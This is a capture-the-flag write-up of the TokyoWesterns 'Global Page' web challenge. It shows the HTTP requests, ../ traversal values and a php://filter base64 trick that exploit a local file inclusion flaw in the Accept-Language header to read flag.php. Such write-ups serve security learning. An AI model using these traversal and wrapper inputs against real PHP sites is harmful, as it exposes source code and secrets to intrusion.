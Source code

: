 # Global Page (Web, 50pts)

## Problem

Welcome to TokyoWesterns' CTF!
url: http://globalpage.chal.ctf.westerns.tokyo/

## Solution

GlobalPage welcomes us with a very short list of available links:

![Global Page](1.png)

After clicking one of them , we've got a list of PHP warnings from _include()_ function:

![Warnings](2.png)

What's most interesting here, a lot of them starting from language identifiers, like _pl_, _pl-PL_, _en-US_ and similar.

The only place where those identifiers exist is _Accept-Language_ header in HTTP request:

```
GET /?page=ctf HTTP/1.1
Host: globalpage.chal.ctf.westerns.tokyo
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2827.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://globalpage.chal.ctf.westerns.tokyo/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Connection: close

```

It seemed that application uses them to display user content in valid language (eg. for me it was Polish) and this feature is vulnerable to **LFI** (Local File Include).

At this moment the right solution was obvious - find the file with the flag and then display it using LFI in Accept-Language header.

First problem was to find the right file. First I tried to include existing file (and getting no error from _include()_ proved that file exists):

```
Accept-Language: ../index
```

Then after some guessing I found this one:

```
Accept-Language: ../flag
```
It was _flag.php_ file saved in web root of the application.

As it was PHP file, server parsed it instead of displaying its content. To bypass this, I used _php://filter_ wrapper which allows to read files and return them as Base64:

http://php.net/manual/en/wrappers.php.php

Last problem I've faced with was to find the right way to build valid path to flag.php

Using existing _page_ parameter like 'ctf', I get an error:

```
<b>Warning</b>:  
include(ctf/php://filter/convert.base64-encode/resource=flag.php): failed to open stream: No such file or directory in 
<b>/var/www/globalpage/index.php</b> 
on line <b>41</b><br />
```

![Include error](3.png)

The solution was quite simple, but I've spent some time before I get it right.
Application put _page_ parameter from URL as directory name. So using _php:/_ as directory name allowed me to build valid _php://filter_ command:


![Flag](4.png)

The flag.php in Base64:

```
PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg==
```

And in plain text:

```
<?php
$flag = "TWCTF{I_found_simple_LFI}";
```

